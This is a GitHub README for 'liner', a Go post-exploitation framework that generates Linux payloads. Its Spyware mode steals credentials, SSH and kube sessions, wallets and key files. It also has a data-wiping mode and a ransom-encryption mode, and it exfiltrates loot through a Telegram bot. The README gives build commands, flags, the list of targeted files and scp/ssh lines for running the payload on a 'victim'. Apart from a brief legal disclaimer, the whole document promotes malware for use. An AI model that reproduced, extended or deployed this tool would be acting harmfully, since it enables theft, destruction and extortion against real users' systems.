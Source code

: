 <img width="1200" height="850" alt="ChatGPT Image Jul 14, 2025, 04_07_32 PM" src="https://github.com/user-attachments/assets/c870a924-deca-4834-9c11-b0b4df874eb2" />

# liner

`liner` is a lightweight and modular **post-exploitation framework** written in **pure Golang**, designed to generate **custom payloads** for Linux-based systems. These payloads can perform stealthy **data exfiltration**, **destructive actions**, or **ransom-like encryption** depending on user-defined modes.

---

## 🚀 Features

- 🔧 Generate standalone **Go binaries** for various post-exploitation tasks
- 🕵️ Spyware Mode: dump credentials, sessions, private files
- 💣 Vayper Mode: destroy selected categories of sensitive data *(WIP)*
- 🔐 Ransom Mode: encrypt sensitive files *(WIP)*
- 📤 Exfiltrate data via **Telegram bot**
- 🧹 Self-deletion & log cleanup
- 🧪 No dependencies – works out-of-the-box on any Linux system
- 🧬 Output as Go code or compiled ELF binary

---

## ⚙️ Installation

```bash
git clone https://github.com/yourname/liner.git
cd liner
go build -o liner cmd/liner.go
```

You now have a CLI tool: `./liner`

---

## 🧾 Usage

```bash
liner [FLAGS] -o [output_name]
```

### 🔹 Global Flags

| Flag         | Description                                                   |
|--------------|---------------------------------------------------------------|
| `--help`     | Show help and usage information                               |
| `--silent`   | Run without displaying the ASCII logo                         |
| `--mode`     | What the final binary should do: `Spyware`, `Vayper`, `Ransom`|
| `--token`    | Telegram bot token                                            |
| `--id`       | Telegram chat ID                                              |
| `--dump`     | What to dump: `Credentials`, `Password`, `Session`, `privateDATA`, `all` *(Spyware only)* |
| `--destroy`  | What to destroy *(Vayper only)*                               |
| `--encrypt`  | What to encrypt *(Ransom only)*                               |
| `-o`         | Output filename (with or without `.go`)                       |

---

## 🧪 Example

```bash
liner \
--mode Spyware \
--dump all \
--token 123456:ABCDEF-TelegramBotToken \
--id 987654321 \
--silent \
-o setting
```

This command creates a binary file named `setting` which:

- Runs in silent mode
- Extracts all targeted information
- Sends everything to your Telegram
- Cleans itself and logs if implemented

To run it on target:

```bash
scp ./setting user@victim:/tmp
ssh user@victim 'chmod +x /tmp/setting && /tmp/setting'
```

---

## 🗂️ Modes

### 🔹 Spyware Mode (`--mode Spyware`)

- Targeted for **stealth data extraction**
- Supported `--dump` values:
  - `Credentials`: Git credentials, keychains, browsers
  - `Password`: Bash/zsh history, `pass`, keyrings
  - `Session`: `.ssh`, `.kube`, browser profiles
  - `privateDATA`: `.env`, `.sqlite`, `.wallet`, `.pem`, `.p12`, etc.
  - `all`: all of the above

### 🔹 Vayper Mode (`--mode Vayper`) *(WIP)*

- Designed to **delete** specific data classes
- Supported `--destroy` values: `Credentials`, `Password`, `Session`, `privateDATA`, `all`

### 🔹 Ransom Mode (`--mode Ransom`) *(WIP)*

- Designed to **encrypt** selected data on disk
- Supported `--encrypt` values: same as `--destroy`

---

## 📦 Project Structure

```
liner/
├── cmd/                  # CLI tool (liner.go)
├── core/                 # Core logic for spyware, telegram, utils
│   ├── spyware.go
│   ├── telegram.go
│   └── utils.go
├── payloads/             # Payload templates
│   └── spyware_template.go
├── build/                # Output binaries or .go files
├── README.md
└── go.mod
```

---

## 📤 Exfiltration Details

- Data collected is zipped or serialized
- Sent via `https://api.telegram.org/bot<token>/sendDocument`
- Uses HTTP POST requests with silent delivery
- No external libraries – raw Go net/http

---

## 🛡️ Legal Disclaimer

This project is for **educational and authorized security testing** only.  
Using this tool against systems without explicit permission is **illegal**.

---

## 👨‍💻 Author

Developed with ❤️ by [yourname]  
If you find this useful, give it a ⭐ on GitHub!

